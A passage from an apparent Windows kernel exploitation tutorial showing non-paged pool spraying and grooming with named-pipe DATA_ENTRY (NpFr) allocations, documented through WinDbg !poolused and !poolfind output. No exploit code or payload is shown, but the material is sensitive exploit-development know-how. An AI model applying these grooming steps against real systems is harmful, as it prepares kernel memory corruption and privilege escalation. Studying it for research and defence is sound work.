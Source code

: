 We can see that there are no pool chunks allocated in non-paged pool, corresponding to **'NpFr'** tag. Now we will execute the spray code and check the kernel pool again.

```
kd> !poolused 2 NpFr

 Sorting by NonPaged Pool Consumed

               NonPaged                  Paged
 Tag     Allocs         Used     Allocs         Used

 NpFr     12288      1376256          0            0    DATA_ENTRY records (read/write buffers) , Binary: npfs.sys

TOTAL     12288      1376256          0            0
```

We can see lots of **DATA_ENTRY** records allocated in non-paged pool.

## Grooming Non-Paged Kernel Pool
Now, we will go ahead and perform the allocation part of the grooming phase.

```
 kd> !poolused 2 NpFr
.
 Sorting by NonPaged Pool Consumed

               NonPaged                  Paged
 Tag     Allocs         Used     Allocs         Used

 NpFr     17664      1978368          0            0    DATA_ENTRY records (read/write buffers) , Binary: npfs.sys

TOTAL     17664      1978368          0            0
```

We can dump the address of all the **DATA_ENTRY** records pool chunks as follows:

```
kd> !poolfind NpFr -nonpaged

---------------------------------- SNIP --------------------------------------------------
fffffa8004ddb600 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb670 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb6e0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb750 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb7c0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb830 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb8a0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb910 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb980 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddb9f0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddba60 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbad0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbb40 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbbb0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbc20 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbc90 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbd00 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbd70 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbde0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbe50 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbec0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbf30 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
fffffa8004ddbfa0 : tag NpFr, size      0x60, Nonpaged pool, quota process fffffa80028cf060
```
